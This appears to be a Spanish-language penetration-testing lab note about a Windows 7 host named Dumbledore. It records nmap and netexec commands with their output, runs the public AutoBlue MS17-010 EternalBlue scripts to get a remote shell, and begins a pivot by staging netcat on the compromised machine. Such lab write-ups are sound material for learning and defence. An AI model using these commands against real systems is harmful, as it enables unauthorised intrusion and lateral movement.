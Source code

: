 [[192.168.100.7(Nagini)]]
#Dumbledore 
- Pwned

Haremos un scaneo de red con [[NMAP]]
`nmap -sT -Pn --top-ports 500 --open -T5 -v -n 192.168.100.9`

```python
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
554/tcp  open  rtsp
5357/tcp open  wsdapi
```

Para enumerar el servicio SMB usaremos [[CRACKMAPEXEC-NETEXEC]] con:
`netexec smb 192.168.100.4 2>/dev/null`
```python
SMB 192.168.100.4 445 DUMBLEDORE-PC    
[*] Windows 7 / Server 2008 R2 Build 7601 x64 
(name:DUMBLEDORE-PC) 
(domain:Dumbledore-PC) 
(signing:False) 
(SMBv1:True) 
```

Estamos ante un Windows 7 con el puerto SMB expuesto.
Como es una versión y un puerto vulnerables vamos a realizar un ataque de eternalBlue
Usáremos el repositorio de GitHub: `https://github.com/3ndG4me/AutoBlue-MS17-010`
Dentro de esta herramienta usaremos primero `eternal_checker.py` usaremos para saber si la maquina es vulnerable: `python3 eternal_checker.py 192.168.100.9`

Ahora automatizaremos el proceso de obtener una consola interactiva con la herramienta `zzz_exploit.py` ejecutándola con `python3 zzz_exploit.py 192.168.100.9` y conseguiremos usa Shell dentro de la maquina Windows.

Una vez dentro si hacemos `ipconfig` veremos que dentro se encuentra otra interfaz de red con  [[172.18.0.6(Dumbledore)]] 

Nos descargamos netcat para Windows desde `https://eternallybored.org/misc/netcat/`
Lo descomprimimos en un directorio llamado netcat `unzip -d netcat netcat-win32-1.12.zip`
Y el archivo `nc64.exe` deberemos compartirlo con la maquina Windows al directorio `C:\Windows\temp`



